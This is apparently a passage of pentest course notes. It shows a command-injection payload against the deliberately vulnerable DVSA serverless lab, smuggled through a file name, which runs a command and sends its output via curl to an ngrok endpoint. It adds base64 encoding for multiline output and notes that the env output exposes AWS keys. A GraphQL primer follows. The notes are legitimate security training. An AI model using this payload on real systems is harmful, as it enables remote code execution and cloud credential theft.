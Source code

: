 ```bash
whatever_; # it checks For an underscore in the file name
Curl something.ngrok.io # THe ngrok endpoint to send the output
"$(whoami)"; # the command to run
Echo x.raw # needs to end in .raw to be triggered
```

-  WIth everything in place go and check the Ngrok web interface to check that there are some requests.

Commands that return a multiline response will not go through as they will break the payload. However, they can be base64 encoded without breaking the lines using **$(ls -lha | base64 -w0)** in the payload

- Ngrok will now receive the requests that can be decoded to get the command output

- If you output the **env** command result, it will include the AWS keys used by the lambda functions. As a result they will have the same privileges they are given and used with the API.
- At this point DVSA stack can be deleted from the CloudFormation AWS Service and the S3 Buckets


### GraphQL APIs
GraphQL is a different type of API interface where there is one endpoint to an API (instead of many endpoints in REST), and two types of operations (Query and Mutate) instead of 5 or so in REST (GET, PUT, POST, PATCH, DELETE)

- Usually example.com/graphql or something similar (Nice idea of Google dorks)
- REST usually has one endpoint For each type of object (users, groups, items, books, orders, shipments...etc) with 3 or more operations on each endpoint
- In GraphQL, the same endpoint serves all predefined objects under both Query and Mutation methods

#### GraphQL Terms
```
- Query: A query operation on an object or type
- Mutate: an update operation on an object, like creating a new one, updating it fully, updating it partially, or deleting it
- Type (objecttype): A type of object, like a class or table, e.g. Users, Orders, books
- Schema: Describes the types, fields and actions available
- Introspection: A method to learn more about the schema details like types and fields
- Resolver: A function that connects schema definitions to actual backend data sources like SQL tables
- Scalar Type: Type of data For a field, like string, int or custom types.
```

![Alt text](/assets/images/posts/ewptx/114.png){: .align-center}
